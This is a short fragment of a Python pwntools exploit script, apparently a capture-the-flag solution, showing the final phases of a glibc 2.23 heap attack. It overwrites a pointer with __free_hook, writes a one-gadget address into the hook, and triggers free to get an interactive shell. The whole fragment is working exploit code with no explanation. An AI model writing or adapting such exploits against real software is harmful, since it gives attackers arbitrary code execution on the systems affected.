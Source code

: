 ```python
libc = ELF("libc6_2.23-0ubuntu10_amd64.so")

### PHASE 6 - REWRITE POINTER WITH FREE_HOOK ###

edit(3, "\0"*(ptr_2 - forged) + p64(libc_addr + libc.symbols["__free_hook"]), b="0")

### PHASE 7- WRITE THE ONE CALL GADGET ADDRESS IN FREE_HOOK ###

magic = libc_addr + 0x0000000004526a
edit(2, p64(magic), b="0")

### PHASE 8 - PWN ###

delete(7) #WIN

p.interactive()

```
